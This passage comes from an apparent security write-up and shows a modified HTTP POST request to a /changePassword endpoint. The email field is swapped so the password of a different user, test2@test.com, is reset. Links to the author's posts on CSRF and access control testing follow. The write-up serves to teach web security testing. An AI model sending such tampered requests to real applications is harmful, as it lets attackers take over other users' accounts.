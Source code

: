 The replace test1@test.com to test2@test.com

**Modified Request**
```
POST /changePassword HTTP/1.1
Host: example.com
...
Cookies=COOKIES

email=test2@test.com&newpassword=Password&cfmpassword=Password
```

On sending this request, password of test2@test.com will be changed to `Password`

## This was a quick writeup of the Exploited Vulnerabilities, to understand in depth I recommend

### Frontend Source Review

[Reviewing the Frontend Source Code of Web Application](https://vj0shii.github.io/security-review-of-frontend-source-code/)

### CSRF

[Compromise complete application with CSRF attack](https://vj0shii.github.io/Compromise-complete-application-with-CSRF-attack/)

### Improper Access Control

[How I was able to update any user's address](https://vj0shii.github.io/updating-address-of-any-user/)

[Testing WebApp Access Control with Autorize](https://vj0shii.github.io/Testing-WebApp-Access-Control-with-Autorize/)

**If you have anything to discuss contact me on my linkedin or twitter account or with the Contact Me form**
